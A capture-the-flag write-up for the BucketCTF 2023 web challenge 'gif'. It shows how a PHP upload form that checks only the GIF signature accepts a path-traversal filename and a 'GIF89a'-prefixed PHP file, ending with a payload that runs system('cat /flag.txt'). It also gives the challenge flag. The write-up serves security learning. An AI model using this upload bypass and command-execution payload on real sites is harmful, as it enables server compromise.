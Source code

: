 # gif (BucketCTF 2023)

**Challenge category**: Web<br>
**Challenge description**: "I made a secure php web app where I can upload all my gifs. Some people on the internet told me to run it in a docker container just to protect it from my personal files, but who cares."<br>
**Challenge points**: 272<br>
**CTF date**: ven, 07 Apr. 2023, 17:00 UTC — dom, 09 Apr. 2023, 17:00 UTC<br>

## Context

This challenge concerns an RCE caused by insufficient checks on the type of uploaded files. In particular, the file type involved is GIF. The structure of a GIF file is as follows:

![GIF_Structure](https://user-images.githubusercontent.com/66698256/231185610-1ace7bdc-907b-4eed-8dd6-4c1b220b6639.png)

As reported in [[1]](#1):

> GIF SIGNATURE<br>
The following GIF Signature identifies  the  data  following  as  a<br>
valid GIF image stream. It consists of the following six characters:<br>
G I F 8 7 a.<br>
The last three characters '87a' may be viewed as a  version  number<br>
for  this  particular  GIF  definition  and will be used in general as a<br>
reference  in  documents  regarding  GIF  that   address   any   version<br>
dependencies.
   
To specify the version of the GIF definition, each GIF file starts with a string that matches the pattern <code>GIF[0-9]{2}[a-z]</code> (for example <code>GIF87a</code>). The challenge server checks the file type based on the signature. So every file starting with a string that matches the pattern just defined is considered by the server to be a GIF file (even if its extension is not <code>gif</code>). Our goal is to upload a PHP file in order to get an RCE.


## Exploring the challenge

The web site consists of only one web page.

![Schermata_Iniziale](https://user-images.githubusercontent.com/66698256/231177553-b1772d2e-d9cf-4a70-ac79-4b367eaf35bd.png)

The data entered in this form are sent to the <code>/upload.php</code> page.

![Form](https://user-images.githubusercontent.com/66698256/231177571-2d3d9377-f1ca-4602-800c-2d7a6ad2db75.png)

We can upload any GIF file and give it any name. Let's try to upload any GIF file.

![Upload_1](https://user-images.githubusercontent.com/66698256/231177594-3f5323d6-3a71-4aaf-8935-08f9720c09b4.png)<br>

![Upload_1_Success](https://user-images.githubusercontent.com/66698256/231178375-9cc8d999-4dfd-4503-85d0-47537471c44a.png)

![Upload_1_Gif](https://user-images.githubusercontent.com/66698256/231178369-e119a287-84f0-40cb-ad01-a167e6f4bd65.png)

Let's try to upload any GIF file to an unintended location, like <code>../file.gif</code>.

![Upload_2](https://user-images.githubusercontent.com/66698256/231180213-f8db3a7c-10d0-42bb-87db-9da12c1cd3a0.png)

![Upload_2_Success](https://user-images.githubusercontent.com/66698256/231180252-233ef59c-1ad5-4764-bef9-3c2dd983095b.png)

![Upload_2_Gif](https://user-images.githubusercontent.com/66698256/231180293-df492f54-83a5-4043-84d6-a65ad3541840.png)


We can store a file wherever we want. Let's try to upload the GIF file as a PHP file.

![Upload_3](https://user-images.githubusercontent.com/66698256/231180319-50e7b4af-619a-4311-ad60-2b2f9bbd8e73.png)

![Upload_3_Success](https://user-images.githubusercontent.com/66698256/231180338-f2299540-272e-4e60-81bf-bcb7ffb7474b.png)

![Upload_3_Execution](https://user-images.githubusercontent.com/66698256/231182393-a4ba89c8-2eab-4697-b6a8-44aa46ef3e47.png)


The server run the GIF file as a PHP file (the error is due to some metadata). Let's explore the GIF file (with Block note):

![Gif_File](https://user-images.githubusercontent.com/66698256/231180401-07014406-2605-485c-9375-f52d7edaee81.png)

As described above in the *Context* section, the file starts with a signature that matches the pattern <code>GIF[0-9]{2}[a-z]</code> (<code>GIF89a</code>). You can also see the metadata that caused the error (<code>begin="ï»¿"</code>).


## Attack

To execute the attack we have to define a PHP file that starts with a string that matches the pattern <code>GIF[0-9]{2}[a-z]</code> (this string will be treated as HTML text, therefore it won't affect the exploit). We'll use <code>GIF89a</code> as the signature. File extension can be PHP, not necessarily GIF (server doesn't check file extension, only its content). So:

```php
GIF89a:<?php
echo "AAAA";
?>
```
Let's upload it and see what happens.

![Upload_exploit](https://user-images.githubusercontent.com/66698256/231181157-49bd5985-29c3-4b2b-a3cb-755a506089da.png)

![Exploit_Executed](https://user-images.githubusercontent.com/66698256/231181122-dfede20a-5288-4155-ba45-59f5b335f710.png)

We got RCE! If we could not have known the name of the folder where the files were uploaded (in this case "uploads"), we would have had to upload the exploit in the parent folder (<code>../</code>).<br>
The flag is inside <code>/flag.txt</code> file. So the file to upload should contain the following code:

```php
GIF89a:<?php
echo system("cat /flag.txt");
?>
```

Let's upload it (I don't know why it will print the flag twice).

![Upload_exploit](https://user-images.githubusercontent.com/66698256/231181157-49bd5985-29c3-4b2b-a3cb-755a506089da.png)

![Flag](https://user-images.githubusercontent.com/66698256/231184466-d5404534-4003-4d34-9a54-65ad7e4a390b.png)


Flag is <code>bucket{1_h4t3_PHP}</code>.

## References
<a id="1">[1]</a> 
https://www.w3.org/Graphics/GIF/spec-gif87.txt
